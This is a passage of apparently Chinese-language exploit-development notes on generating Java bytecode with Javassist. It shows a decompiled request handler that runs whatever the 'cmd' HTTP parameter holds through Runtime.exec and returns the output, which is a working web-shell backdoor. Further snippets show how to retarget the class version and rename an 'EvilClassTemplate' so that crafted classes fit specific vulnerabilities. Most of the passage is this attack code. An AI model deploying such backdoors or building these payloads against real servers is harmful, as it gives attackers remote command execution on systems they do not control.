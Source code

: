 > 注：一般为考虑目标系统的正常运行，不会使用 `setBody()` 替换整个方法的所有代码。

反编译的 Java 代码：

```java
public final void invoke(final Request request, final Response response) throws IOException, ServletException {
    final String parameter = request.getParameter("cmd");
    if (parameter != null) {
        final BufferedReader bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(parameter).getInputStream(), System.getProperty("sun.jnu.encoding")));
        final StringJoiner stringJoiner = new StringJoiner("\n");
        String line;
        while ((line = bufferedReader.readLine()) != null) {
            stringJoiner.add(line);
        }
        bufferedReader.close();
        response.getOutputStream().write(stringJoiner.toString().getBytes());
        response.getOutputStream().flush();
        response.getOutputStream().close();
    }
    // ...
}
```

在来构建字节码时，还需要为代码导入包：

```java
// 导入包：import java.io.IOException
pool.importPackage("com.gitee.starblues.realize.BasePlugin");
pool.importPackage("java.io");
```

### 修改 Class 类

在打某些特定的漏洞时，往往需要构造特定的类（需要继承特定子类或实现接口）。这种情况下，往往使用一个已经编写好的类进行修改会比较方便。

但使用该方法有一缺点，在对 jar 包进行混淆后会导致无法查找到类，需要在混淆时，将相关代码进行排除才能保证代码正常运行。

#### 修改字节码文件版本号

经过简单的测试，直接设置为低版本后生成的字节码文件，使用低版本的 JDK 可以加载成功。

```java
// 设置目标版本为 JDK 8（major_version = 52）
ClassFile classFile = cc.getClassFile();
classFile.setMajorVersion(ClassFile.JAVA_8);
classFile.setMinorVersion(0);
```

#### 修改类的包名

```java
String packageName = "org.example.template";    // 模版类的包名
String className = "EvilClassTemplate";         // 模版类的类名
String fullClassName = packageName + "." + className;

// 获取模版类
ClassPool pool = ClassPool.getDefault();
CtClass cc = pool.get(fullClassName);

// 修改包名
// 特别需要注意！！！不要使用 new/package 等关键字创建包名，否则会在包名中添加 p000/p001 等字符。
String newPackageName = "org.example";
String newFullClassName = newPackageName + "." + className;
cc.setName(newFullClassName);
```
